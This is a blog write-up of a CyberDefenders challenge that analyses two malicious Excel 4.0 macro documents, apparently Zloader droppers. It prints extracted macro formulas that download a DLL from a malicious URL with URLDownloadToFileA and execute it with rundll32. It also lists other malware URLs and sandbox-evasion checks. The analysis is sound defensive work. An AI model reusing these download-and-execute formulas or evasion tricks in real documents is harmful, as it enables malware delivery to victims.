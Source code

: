```yaml
---
title: XLM Macros Writeup - CyberDefenders
author: Naimul Islam
date: 2023-08-04
tags: ["post", "featured"]
image: /assets/blog/forensic-1.jpg
imageAlt:
description: Analysis of Excel document that uses excel 4.0 macros instead of VBA.
---
```


> Recently, we have seen a resurgence of Excel-based malicous office documents. Howerver, instead of using VBA-style macros, they are using older style Excel 4 macros. This changes our approach to analyzing these documents, requiring a slightly different set of tools. In this challenge, you'll get hands-on with two documents that use Excel 4.0 macros to perform anti-analysis and download the next stage of the attack.

# Sample 1

## 1. What is the document decryption password?

First check if the file is encrypted.

```
root@06c2f2076f07 /shared# msoffcrypto-tool -t -v sample1.bin  
Version: 5.0.1
sample1.bin: encrypted
```

Yes. Now get the pass.

```
root@1ae0377cd588 /shared# msoffcrypto-crack.py sample1.bin  
Password found: VelvetSweatshop
```

## 2. This document contains six hidden sheets. What are their names? Provide the value of the one starting with S.

After getting the password, I decrypted the file.

```
msoffcrypto-tool -p VelvetSweatshop sample1.bin dec-sample1.bin
```

Got sheet information by using oledump with plugin_biff.

```
root@06c2f2076f07 /shared# oledump.py -p ~/DidierStevensSuite/plugin_biff.py --pluginoptions "-x" dec-sample1.bin  
 1:       114 '\x01CompObj'
 2:       368 '\x05DocumentSummaryInformation'
 3:       200 '\x05SummaryInformation'
 4:     92329 'Workbook'
              Plugin: BIFF plugin  
                0085     25 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - SOCWNEScLLxkLhtJp
                0085     25 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - OHqYbvYcqmWjJJjsF
                0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro2
                0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro3
                0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro4
                0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro5
                0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet1
                0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet2
                0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet3
[...]
```

## 3. What URL is the malware using to download the next stage? Only include the second-level and top-level domain. For example, xyz.com.

```
root@1ae0377cd588 /shared# strings dec-sample1.bin | re-search.py -n url
http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe~
http://rilaer.com/IfAmGZIJjbw
http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe
```

## 4. What malware family was this document attempting to drop?

Found the sample on malwarebazar

![](https://imgur.com/ZlqOmcd)

# Sample 2

## 5. This document has a very hidden sheet. What is the name of this sheet?

First, checking if the file is encrypted:

```
root@06c2f2076f07 /shared# msoffcrypto-tool -t -v sample2.bin
Version: 5.0.1
sample2.bin: not encrypted
```

Using oledump with plugin_biff plugin:

```
oledump.py sample2.bin -p ~/DidierStevensSuite/plugin_biff.py --pluginoptions "-x"
```

```
[...]
0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet1
0085     18 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, very hidden - CSHykdYHvi
[...]
```

## 6. This document uses reg.exe. What registry key is it checking?

```
[...]
'0207    131 STRING : String Value of a Formula - b\'"VBAWarnings"=dword:00000002\''
[...]
```

## 7.  From the use of reg.exe, what value of the assessed key indicates a sandbox environment?

0x1

## 8. This document performs several additional anti-analysis checks. What Excel 4 macro function does it use?

![](https://imgur.com/undefined)

(part of olevba output)

All these checks are used by the malware to see if its running in a sand boxed environment. Using this [reference](https://malware.news/t/excel-4-macros-get-workspace-reference/38892), This is what the highlighted keys check:

**GET.WORKSPACE(2):** Version of Excel Running
**GET.WORKSPACE(13):** Workspace Width
**GET.WORKSPACE(14):** Workspace Height
**GET.WORKSPACE(19):** If a mouse is present
**GET.WORKSPACE(42):** If Machine can play Sound

## 9. This document checks for the name of the environment in which Excel is running. What value is it using to compare?

Windows

```
FORMULA("=SHARED FMLA at rowx=0 colx=1IF(ISNUMBER(SEARCH(""Windows"",GET.WORKSPACE(1))), ,CLOSE(TRUE))",K7)
```

## 10. What type of payload is downloaded?

DLL

```
FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
```

## 11. What URL does the malware download the payload from?

https[://]ethelenecrace[.]xyz/fbb3

```
FORMULA("=CALL(""urlmon"",""URLDownloadToFileA"",""JJCCJJ"",0,""https://ethelenecrace.xyz/fbb3"",""c:\Users\Public\bmjn5ef.html"",0,0)",K8)
```

## 12. What is the filename that the payload is saved as?

bmjn5ef.html

## 13. How is the payload executed? For example, mshta.exe

rundll32.exe

```
FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
```

## 14. What was the malware family?

After submitting the md5 on VT, got zloader.
